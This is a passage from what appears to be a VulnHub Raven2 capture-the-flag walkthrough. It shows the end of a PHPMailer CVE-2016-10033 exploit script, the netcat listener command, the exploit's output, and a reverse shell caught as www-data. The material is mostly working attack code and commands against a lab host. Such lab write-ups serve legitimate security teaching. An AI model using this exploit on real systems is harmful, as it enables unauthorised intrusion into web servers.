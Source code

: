 ```
proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```

<p>
Now start a netcat listener on the port specified in the payload. I used the default 4444:
<code><a href='https://explainshell.com/explain?cmd=nc+-lvnp+4444' target="_blank">nc -lvnp 4444</a></code>,
then start the exploit with <code>python 40974.py</code>. 
If you get <code>ModuleNotFoundError: No module named 'requests_toolbelt'</code>, you just
need to install requests_toolbelt for python using pip first: 
</p>

```
root@kali:~/Documents/VulnHub/Raven2# pip install requests_toolbelt                  
Collecting requests_toolbelt
  Downloading https://files.pythonhosted.org/packages/60/ef/7681134338fc097acef8d9b2f8abe0458e4d87559c689a8c306d0957ece5/requests_toolbelt-0.9.1-py2.py3-none-any.whl (54kB)
    100% |████████████████████████████████| 61kB 1.3MB/s  
Requirement already satisfied: requests<3.0.0,>=2.0.1 in /usr/lib/python2.7/dist-packages (from requests_toolbelt) (2.20.0)                                                                 
Installing collected packages: requests-toolbelt
Successfully installed requests-toolbelt-0.9.1   

root@kali:~/Documents/VulnHub/Raven2# python 40974.py
 █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ 
██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗
███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝
██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗
██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║
╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝
      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com
 Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski

[+] SeNdiNG eVIl SHeLL To TaRGeT....
[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D
[+]  ExPLoITeD http://192.168.1.23/contact.php
```

<p>
Once that's working, navigate to <code>http://192.168.1.23/shell.php</code> or whatever
you named your shell. Your listener should pick it up and you'll get a low privilege shell.
</p>

```
root@kali:~/Documents/VulnHub/Raven2# nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.1.22] from (UNKNOWN) [192.168.1.23] 57208
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
